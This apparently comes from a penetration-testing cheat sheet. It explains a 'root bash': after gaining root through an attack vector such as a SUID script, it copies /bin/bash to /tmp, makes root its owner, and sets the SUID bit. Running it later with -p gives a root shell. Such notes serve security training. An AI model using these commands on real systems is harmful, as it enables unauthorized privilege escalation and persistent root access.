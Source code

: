 # Root Bash

<div class="row row-cols-lg-2"><div>

A root bash is a (bash) shell that was executed as root. For instance, using an attack vector such as a SUID script, we may run:

```ps
$ cp /bin/bash /tmp/rootbash
$ chown root /tmp/rootbash
$ chmod +s /tmp/rootbash
```

If you are successful, you can use `-p` (and `-i`) to run it:

```ps
$ /tmp/rootbash -p
root@xxx$
```

📚 Replace `root` with another user according to the attack vector.
</div><div>
</div></div>